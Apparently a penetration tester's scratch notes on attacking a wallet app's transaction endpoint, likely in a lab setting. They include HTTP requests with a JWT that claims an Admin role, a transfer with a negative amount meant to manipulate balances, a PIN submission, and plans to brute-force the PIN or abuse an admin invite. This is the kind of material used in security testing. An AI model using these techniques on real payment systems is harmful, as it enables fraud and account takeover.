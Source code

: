 

*flow -> check if I can somehow inject in transaction*
can make a transaction and then will be prompted to confirm my pin before transaction gets executed






*this request  worked but receiver not found*

Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
Content-Type: application/json
Content-Length: 67

{
	"receiver": "test",
	"amount": "1234",
	"note":    "test"
}



*transaction pending waiting for pin!!!!!*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
Content-Type: application/json
Content-Length: 101

{
	"receiver": "f0eca6e5-783a-471d-9d8f-0162cbc900db",
	"amount": "-44444",
"note":    "test"
}




*Incorrect PIN*

Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
Content-Type: application/json
Content-Length: 22

{
	"pin": "2345"
}


*I think 2 ways here I brute force the pin here with a script or I try to register a new account with the admin invite so I know the pin*

*I think the second option*


public static final int pin = 0x7f080167;
public static int pin_input = 0x7f080168;
